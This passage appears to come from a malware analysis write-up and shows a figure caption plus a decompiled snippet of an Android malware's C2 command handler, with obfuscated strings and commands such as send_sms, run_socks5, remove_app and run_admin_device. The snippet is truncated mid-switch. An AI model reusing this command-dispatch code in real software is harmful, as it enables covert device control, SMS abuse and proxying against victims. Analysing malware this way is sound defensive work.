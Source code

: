   <img src="9.png" />
</p>
<center><font size="2"> <u>Figure</u>(9): Call graph of class that communicate with C2<u></u> </font></center>
<br>


# Commands

These are all the commands which are received from the C2 server to the malware to do the malicious actions.

```cs
 jwozx0.a.a(s, jwozx0.a("ZWZkZDI4ZTRjYzIzNmYwYWFhYTExZjA5MWU=") + jSONObject3.toString());  // get run_cmd: 
                jSONObject5 = new JSONObject(new String(Base64.decode(jSONObject3.getString(jwozx0.a("ZWNkOTI4YTU=")), 0), "UTF-8"));  // data
                String s25 = jSONObject5.getString(jwozx0.a("ZWJkNTM4"));  // cmd
                switch(s25) {
                    case "remove_app": {
                        goto label_1633;
                    }
                    case "get_all_permission": {
                        goto label_1761;
                    }
                    case "run_socks5": {
                        goto label_1764;
                    }
                    case "notification": {
                        goto label_1383;
                    }
                    case "send_sms": {
                        jwozx0.a.send_sms(context1, jSONObject5.getString(jwozx0.a("ZTY=")), jSONObject5.getString(jwozx0.a("ZmM=")));
                        return;
                    }
                    case "run_admin_device": {
```